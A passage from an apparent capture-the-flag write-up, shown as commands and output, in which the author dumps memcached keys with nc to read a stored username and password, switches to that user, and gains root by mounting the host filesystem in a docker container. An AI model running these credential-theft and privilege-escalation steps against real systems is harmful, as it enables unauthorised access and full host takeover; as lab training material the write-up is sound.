 ```
STAT items:1:crawler_items_checked 52
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 485
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
ash@cache:~$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```
- `user` and `passwd` look interesting
```
ash@cache:~$ echo "get user" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE user 0 5
luffy
END
ash@cache:~$ echo "get passwd" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
```

- `su` as `luffy`
```
ash@cache:~$ su - luffy
Password: 
luffy@cache:~$ 
```
## Root
- `luffy` is in `docker` group
```
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

- Let's check if there are any containers or images
```
luffy@cache:~$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
luffy@cache:~$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        4 years ago         64.2MB
luffy@cache:~$ 
```
```
luffy@cache:~$ docker run -v /:/mnt -i -t ubuntu bash
root@6531616deb70:/# 
```